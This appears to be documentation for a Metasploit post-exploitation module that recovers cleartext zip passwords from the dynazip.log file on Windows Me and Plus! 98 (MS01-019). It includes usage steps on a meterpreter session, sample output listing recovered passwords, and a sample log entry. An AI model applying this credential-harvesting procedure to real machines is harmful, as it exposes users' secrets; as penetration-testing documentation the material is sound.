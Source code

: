 ## Vulnerable Application

  This post-exploitation module extracts clear text credentials from dynazip.log.

  The dynazip.log file is located in `%WINDIR%` and contains log entries generated during encryption of Compressed Folders (zip files) in Microsoft&reg; Plus! 98 and Windows&reg; Me. Each log entry contains detailed diagnostic information generated during the encryption process, including the zip file name and the password used to encrypt the zip file in clear text.

  Microsoft released details of the vulnerability in [Microsoft Security Bulletin MS01-019](https://technet.microsoft.com/en-us/library/security/MS01-019) rated as Critical. A patch which disabled use of the log file was also released; however the patch failed to clear the contents of the existing log file.

  Microsoft&reg; Plus! 98 and Windows&reg; Me are no longer supported by Microsoft.


## Verification Steps

  1. Start `msfconsole`
  2. Get meterpreter session
  3. Do: `use post/windows/gather/credentials/dynazip_log`
  4. Do: `set SESSION <session id>`
  5. Do: `run`
  6. You should be able to see the extracted credentials in the module output


## Example Run

  **Default Output**

  ```
  msf post(dynazip_log) > exploit 

  [+] Found DynaZip log file: C:\WINDOWS\dynazip.log
  [+] File: 'C:\WINDOWS\Desktop\secret.zip' -- Password: 'my secret password!'
  [+] File: 'C:\WINDOWS\Desktop\private.zip' -- Password: 'priv8'
  [+] File: 'C:\WINDOWS\Desktop\thepasswordisaspace.zip' -- Password: ' '
  [+] File: 'C:\WINDOWS\Desktop\earthbound.zip' -- Password: 'fuzzy pickles'

  ZIP Passwords
  =============

  File Path                                   Password
  ---------                                   --------
  C:\WINDOWS\Desktop\earthbound.zip           fuzzy pickles
  C:\WINDOWS\Desktop\private.zip              priv8
  C:\WINDOWS\Desktop\secret.zip               my secret password!
  C:\WINDOWS\Desktop\thepasswordisaspace.zip   

  [*] Post module execution completed
  ```

  **Verbose Output**

  ```
  msf post(dynazip_log) > set verbose true
  verbose => true
  msf post(dynazip_log) > exploit 

  [+] Found DynaZip log file: C:\WINDOWS\dynazip.log
  [*] Processing log file (6614 bytes)
  [*] Processing log entry for C:\WINDOWS\Desktop\secret.zip
  [+] File: 'C:\WINDOWS\Desktop\secret.zip' -- Password: 'my secret password!'
  [*] Processing log entry for C:\WINDOWS\Desktop\private.zip
  [+] File: 'C:\WINDOWS\Desktop\private.zip' -- Password: 'priv8'
  [*] Processing log entry for C:\WINDOWS\Desktop\thepasswordisaspace.zip
  [+] File: 'C:\WINDOWS\Desktop\thepasswordisaspace.zip' -- Password: ' '
  [*] Processing log entry for C:\WINDOWS\Desktop\earthbound.zip
  [+] File: 'C:\WINDOWS\Desktop\earthbound.zip' -- Password: 'fuzzy pickles'
  [*] Processing log entry for C:\WINDOWS\Desktop\this file is not encrypted.zip
  [*] Did not find a password

  ZIP Passwords
  =============

  File Path                                   Password
  ---------                                   --------
  C:\WINDOWS\Desktop\earthbound.zip           fuzzy pickles
  C:\WINDOWS\Desktop\private.zip              priv8
  C:\WINDOWS\Desktop\secret.zip               my secret password!
  C:\WINDOWS\Desktop\thepasswordisaspace.zip   

  [*] Post module execution completed
  ```


## Example Log Entry

  An example dynazip.log log file entry is shown below:

  ```
  --- DynaZIP ZIP Diagnostic Log - Version: 3.00.16 - 02/22/17  17:01:46 ---
  Function:  5 
  lpszZIPFile: 0x00437538 
  C:\WINDOWS\Desktop\secret.zip
  lpszItemList: 0x0059e878 
  "secret.txt"
  lpMajorStatus: 0x00000000 
  lpMajorUserData: 0x00000000 
  lpMinorStatus: 0x00000000 
  lpMinorUserData: 0x00000000 
  dosifyFlag: 0 
  recurseFlag: 0 
  compFactor: 5 
  quietFlag: 1 
  pathForTempFlag: 0 
  lpszTempPath: 0x00000000 
  ???
  fixFlag: 0 
  fixHarderFlag: 0 
  includeVolumeFlag: 0 
  deleteOriginalFlag: 0 
  growExistingFlag: 0 
  noDirectoryNamesFlag: 0 
  convertLFtoCRLFFlag: 0 
  addCommentFlag: 0 
  lpszComment: 0x00000000 
  ???
  afterDateFlag: 0 
  lpszDate: 0x00000000 
  oldAsLatestFlag: 0 
  includeOnlyFollowingFlag: 0 
  lpszIncludeFollowing: 0x00000000 
  ???
  excludeFollowingFlag: 0 
  lpszExludeFollowing: 0x00000000 
  ???
  noDirectoryEntriesFlag: 0 
  includeSysHiddenFlag: 1 
  dontCompressTheseSuffixesFlag: 0 
  lpszStoreSuffixes: 0x00000000 
  ???
  encryptFlag: 1 
  lpszEncryptCode: 0x712185d4 
  my secret password!
  lpMessageDisplay: 0x7120ca22 
  lpMessageDisplayData: 0x00000000 
  wMultiVolControl: 0x0000 
  wZipSubOptions: 0x0000 
  lResv1: 0x00000000 
  lResv2: 0x00000000 
  lpszExtProgTitle: 0x00000000 
  ???
  lpRenameProc: 0x71203919 
  lpRenameUserData: 0x0059eb8a 
  lpMemBlock: 0x004e3a0c 
  lMemBlockSize: 6 
  ```
